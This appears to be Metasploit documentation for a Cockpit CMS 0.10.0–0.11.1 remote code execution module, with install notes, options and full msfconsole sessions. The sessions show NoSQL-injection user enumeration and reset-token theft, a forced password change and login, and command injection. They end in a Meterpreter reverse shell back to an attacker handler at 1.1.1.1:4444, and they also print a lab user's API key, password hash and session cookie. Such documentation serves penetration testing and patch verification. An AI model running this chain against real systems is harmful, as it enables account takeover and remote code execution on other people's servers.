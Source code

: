 ## Vulnerable Application

This module exploits two NoSQLi vulnerabilities to retrieve the user list,
and password reset tokens from the system.  Next, the USER is targetted to
reset their password.

Then a command injection vulnerability is used to execute the payload.
While it is possible to upload a payload and execute it, the command injection
provides a no disk write method which is more stealthy.

The following versions of Cockpit CMS contain all the necessary vulnerabilities for exploitation:

* 0.11.1
* 0.11.0
* 0.10.2
* 0.10.1
* 0.10.0

### Install

Follow https://blog.sommerfeldsven.de/how-to-install-cockpit-cms-on-nginx/

MAKE SURE TO BROWSE TO `/install` TO FINISH INSTALL!!

Some useful addresses which don't seem to be well documented:

* `/finder` for a file system browser
* `/accounts` for adding accounts
* `/install` to finish install

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/multi/http/cockpit_cms_rce`
1. Do: `run`
1. Do: `set USER [user]`
1. Do: `run`
1. You should get a shell.

## Options

### ENUM_USERS

Use CVE-2020-35846 to enumerate users on the system.

### USER

Username to reset the password of, and login as to perform the command injection with. Defaults to `''`

## Scenarios

### Cockpit CMS 0.11.1 on Ubuntu 20.04

#### Obtain list of users

```
[*] Processing cockpit.rb for ERB directives.
resource (cockpit.rb)> use exploit/multi/http/cockpit_cms_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
resource (cockpit.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (cockpit.rb)> set verbose true
verbose => true
msf6 exploit(multi/http/cockpit_cms_rce) > check

[*] Attempting Username Enumeration (CVE-2020-35846)
[*] 2.2.2.2:80 - The target appears to be vulnerable.
msf6 exploit(multi/http/cockpit_cms_rce) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Attempting Username Enumeration (CVE-2020-35846)
[+]   Found users: ["admin", "asdf22", "4g4gsegs"]
[-] Exploit aborted due to failure: bad-config: 2.2.2.2:80 - User to exploit required
[*] Exploit completed, but no session was created.
```

#### Exploit user

```
msf6 exploit(multi/http/cockpit_cms_rce) > set user asdf22
user => asdf22
msf6 exploit(multi/http/cockpit_cms_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Attempting Username Enumeration (CVE-2020-35846)
[+]   Found users: ["admin", "asdf22", "4g4gsegs"]
[*] Obtaining reset tokens (CVE-2020-35847)
[*] Attempting to generate tokens
[*] Obtaining reset tokens (CVE-2020-35847)
[+]   Found tokens: ["rp-09397d385d8b4d781906f1bde62a3da8607c4193bc15c"]
[*] Checking token: rp-09397d385d8b4d781906f1bde62a3da8607c4193bc15c
[*] Obtaining user info
[*]   user: asdf22
[*]   email: none@none.com
[*]   active: true
[*]   group: admin
[*]   i18n: en
[*]   api_key: account-8d9e39cf206a7392d292efc281e824
[*]   password: $2y$10$R4mShvdxnXxxnTH85apRLedSWfYbOk4qsGQwG7apOfdQBVRnhEcme
[*]   name: dsf22
[*]   _modified: 1618755509
[*]   _created: 1618755500
[*]   _id: 607c3fac62336679e30002c3
[*]   _reset_token: rp-09397d385d8b4d781906f1bde62a3da8607c4193bc15c
[*]   md5email: 3eda6fcd3204ef285fa52176c28c4d3e
[+] Changing password to BoicMQSMPv
[+] Password update successful
[*] Attempting login
[+] Valid cookie for asdf22: c8695f6d766afc426d0e99f58fb04e0d=d3t7e356h03eufhuc55g91kgsb;
[*] Attempting RCE
[*] Sending stage (39282 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:37260) at 2021-04-18 10:26:27 -0400

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : ubuntu2004
OS          : Linux ubuntu2004 5.4.0-56-generic #62-Ubuntu SMP Mon Nov 23 19:20:19 UTC 2020 x86_64
Meterpreter : php/linux
```
